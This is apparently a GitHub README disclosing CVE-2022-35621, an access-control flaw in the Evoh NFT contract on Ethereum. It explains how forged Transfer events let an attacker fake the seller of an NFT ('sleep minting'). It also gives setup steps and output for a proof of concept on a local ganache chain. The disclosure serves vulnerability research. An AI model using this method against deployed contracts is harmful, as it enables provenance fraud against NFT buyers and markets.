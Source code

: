 # CVE_Evoh_Contract
These are the materials about the vulnerability of Evoh NFT contract

# CVE-ID
CVE-2022-35621

# PRODUCT
`EvohClaimable` is a public smart contract running in the [Ethereum blockchain](https://ethereum.org/en/). The source code of this contract is published in https://github.com/evoh-nft/evoh-erc721 by its developer. The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

This contract is responsible for managing the expensive NFTs (Evoh Llama Frens), such as minting them, transfering them, etc.. These NFTs are sold on the famous NFT market Opensea [here](https://opensea.io/collection/evoh-llama-frens), and the total volume has been 39 ETH ($47435.50 USD) at the time when I write this document. This NFT project is still active now.

# Version
This vulnerability is related to the latest version of this smart contract. The sha256 hash code of the smart contract is fa2084d5abca91a62ed1d2f1cad3ec318e6a9a2d7f1510a00d898737b05f48ae. Check it in the information of the deployed contract in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

# PROBLEM TYPE
Access control vulnerability

# DESCRIPTION
Since in [ERC-721](https://eips.ethereum.org/EIPS/eip-721) based NFT contract, when the contract executes the functions responsible for transferring NFT, such as 
**transferFrom(address _from, address _to, uint256 _tokenId)** or 
**safeTransferFrom(address _from, address _to, uint256 _tokenId)**,
the contract will transfer the NFT whose ID is **_tokenId** from account **_from** to account **_to**.
In addition, these functions should emit the specific event 
**Transfer(address _from, address _to, uint256 _tokenId)** 
to blockchain system, which enables the off-chain applications (such as NFT market, DApp) to perceive the transfer behaviour of NFT and synchronize it from blockchain. For example, the emitted event will be displayed in the market to inform user "the NFT whose ID is **_tokenId** is transfered from **_from** to **_to**". 
For example, in the [page](https://opensea.io/assets/ethereum/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a/97), we can find the event displayed in the Item Activity tab.

This contract does not verify the parameter '\_from' of transferFrom and safeTransferFrom functions need to be the owner of NFT '\_tokenId'. This is a defect about access control: if the attacker Bob has the NFT '\_tokenId', he can transfer '\_tokenId' to Mike but he sets the the parameter '\_from' of transferFrom function to be Alice. Then transferFrom function will transfer the '\_tokenId' from Bob to Mike, but the emitted event will announce Alice transfers the NFT '\_tokenId' to Mike. That is, Bob is able to control the seller of NFT with any values, which can fake NFT transfer. Further, even if Bob is not the owner of NFT '\_tokenId', he can launch this attack if he is approved to sell the NFT. Therefore, this defect can lead to the [sleep mint attack](https://kf106.medium.com/how-to-sleepmint-nft-tokens-bc347dc148f2).

I also provide a PoC to reproduce this attack by deploying the same contract on the [ganache](https://trufflesuite.com/ganache/). The steps to execute the PoC are as follow:

1. activate the environment
```bash
$ git clone https://github.com/MacherCS/CVE_Evoh_Contract.git
$ cd CVE_Evoh_Contract
$ sudo docker build -t machercs/ganache:v1 .
$ sudo docker run --network host -it machercs/ganache:v1
```

2. exploit the vulnerability and emit wrong event to announce fake transfer.
```bash
[+] The address of Bob is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
[+] The address of Alice is: 0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0
[+] The address of Mike is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
...
[+] Bob mints NFT whose ID is 0
...
[+] The owner of NFT 0 is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
...
[+] Exploit end. The NFT 0 is transferred by Bob to Mike.
[+] The owner of NFT 0 is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
[+] The Transfer events in blockchain:
...
{
  logIndex: 0,
  transactionIndex: 0,
  transactionHash: '0x5f29ad15f94935e6246d70fbff2fba919793a9163427e631620ea8ff8a48bcf3',
  blockHash: '0xa736e1b756066edf8186d497a21045a5a055c336055c4462de70a734863cf8a4',
  blockNumber: 6,
  address: '0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab',
  type: 'mined',
  removed: false,
  id: 'log_8740b08f',
  returnValues: Result {
    '0': '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    '1': '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    '2': '0',
    _from: '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    _to: '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    _tokenId: '0'
  },
  event: 'Transfer',
  signature: '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
  raw: {
    data: '0x',
    topics: [
      '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
      '0x000000000000000000000000ffcf8fdee72ac11b5c542428b35eef5769c409f0',
      '0x00000000000000000000000022d491bde2303f2f43325b2108d26f1eaba1e32b',
      '0x0000000000000000000000000000000000000000000000000000000000000000'
    ]
  }
}
[+] Transfer(from:0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0, to:0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b, tokenId:0)
[+] The last event records the NFT 0 is transferred from Alice to Mike (instead of from Bob to Mike).
```

# Additional explanation
For the detail explanation of the exploit, please refer to the annotation of *poc.js* file.
The content of *evoh-erc721-master* folder is the source code of `EvohClaimable` contract.
The *CVE_Evoh_Contract/evoh-erc721-master/contracts/Claimable.sol* is the code of deployed contract.
